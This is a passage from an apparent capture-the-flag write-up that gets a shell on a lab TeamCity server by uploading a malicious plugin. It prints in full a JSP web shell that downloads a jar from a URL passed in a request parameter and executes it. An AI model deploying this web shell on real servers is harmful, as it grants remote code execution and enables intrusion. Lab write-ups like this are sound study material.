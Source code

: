 After login as administrator, found out we can upload plugins (like we can with **wordpress**)

> http://teamcity.runner.htb/admin/admin.html?item=plugins

![](/assets/obsidian/131df6c990176856774adfa451b3f25f.png)

- Google : `teamcity plugin reverse shell`

> Reference - https://github.com/kacperszurek/pentest_teamcity?tab=readme-ov-file#shell-on-server

It showcased a plugin that can execute `.jar` file from remote URL, below is the source code

> `Hello.jsp`

```jsp
<%@ page import="java.io.File" %>
<html>
<body>
OKK
<%
    String file_path = System.getProperty("java.io.tmpdir") + File.separator + request.getParameter("file_path");
    String java_path = System.getProperty("java.home") + File.separator + "bin" + File.separator + "java";
%>
<%= file_path %>
<%= java_path %>
<%
    try {
        org.apache.commons.io.FileUtils.copyURLToFile(new java.net.URL(request.getParameter("file_url")), new File(file_path));
        ProcessBuilder pb = new ProcessBuilder(java_path, "-jar", file_path);
        Process p = pb.start();
    } catch (Exception x) { x.printStackTrace(System.out); }
%>

</body>
</html>
```

